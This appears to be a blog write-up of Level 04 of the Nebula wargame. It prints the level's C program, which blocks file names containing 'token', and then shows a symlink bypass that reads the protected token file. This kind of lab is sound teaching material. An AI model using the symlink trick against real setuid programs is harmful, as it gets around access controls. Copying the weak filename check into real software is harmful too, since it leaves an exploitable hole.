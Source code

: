 ```yaml
---
layout: post
title: "Nebula Series - Level 04"
---
```


*Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.*

**Level 04** teaches us some misdirection

<!--more-->

Ok, so the first thing to understand is that depending on filenames to prevent unauthorized access is a terrible idea.

Our goal for this level is to obtain the value stored in the `/home/flag04/token` file. We're provided with the following
source code for the executable at `/home/flag04/flag04`:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

It first checks that more than one argument is supplied.

```c
  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }
```

The reason it's testing `argc == 1` is because the first argument
is always the name of the executable itself.

Next it checks if the supplied filename contains the substring "token" using `strstr` from the C stdlib.

```c
  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }
```

If the substring is found, the app exits after informing the user that they are not allowed to access that file.

We'll want to avoid this.

Next it opens and reads the file into the buffer

```c
  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));

  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }
```

And finally, it writes the contents to stdout.

```c
  write(1, buf, rc);
```

The first argument here is a file descriptor; in this case it's file descriptor 1 - aka STDOUT.

Alright so how do we sirsumvent the security checks?

Enter symbolic links.

A symbolic link is essentially a named pointer to another file. We can create a symbolic link that doesn't contain "token" in
its name and point it at the token file like

```bash
level04@nebula:~$ ln -s /home/flag04/token /tmp/trickedya

level04@nebula:~$ ls -l /tmp
total 0
lrwxrwxrwx 1 level04 level04 18 2020-04-10 09:00 trickedya -> /home/flag04/token
```

Now all that's left is to run the app again but hand it the symlink

```bash
level04@nebula:~$ /home/flag04/flag04 /tmp/trickedya
06508b5e-8909-4f38-b630-fdb148a848a2
```

And there it is -- the token we weren't supposed to see!

In summary:

- Don't hand-roll your own security
